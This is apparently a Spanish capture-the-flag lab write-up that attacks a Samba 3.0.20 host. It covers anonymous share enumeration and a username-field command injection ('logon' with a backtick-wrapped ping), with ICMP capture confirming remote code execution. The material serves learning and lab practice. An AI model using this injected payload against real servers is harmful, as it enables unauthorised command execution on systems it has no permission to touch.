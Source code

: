 Nos conectamos a samba

> smbclient -L 10.10.10.3 -N

```console
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Para resolver este error se añade los siguientes parámetros

> smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'

```console
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

Por tanto probamos con el directorio /tmp y vemos que ganamos acceso

> smbclient //10.10.10.3/tmp -N --option 'client min protocol = NT1'

```console
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```

Verificando el exploit de ruby; Si nos ponemos en escucha a los paquetes ICMP por la interface tun0 y ejecutamos el siguiente comando vemos que tenemos ejecución remota de comandos

> sudo tcpdump -i tun0 icmp -n
```console
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:03:26.954541 IP 10.10.10.3 > 10.10.14.4: ICMP echo request, id 24856, seq 1, length 64
01:03:26.954566 IP 10.10.14.4 > 10.10.10.3: ICMP echo reply, id 24856, seq 1, length 64
```


> smb: \> logon "/=`nohup ping -c 1 10.10.14.4`"
> Password: 
```console
session setup failed: NT_STATUS_LOGON_FAILURE
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>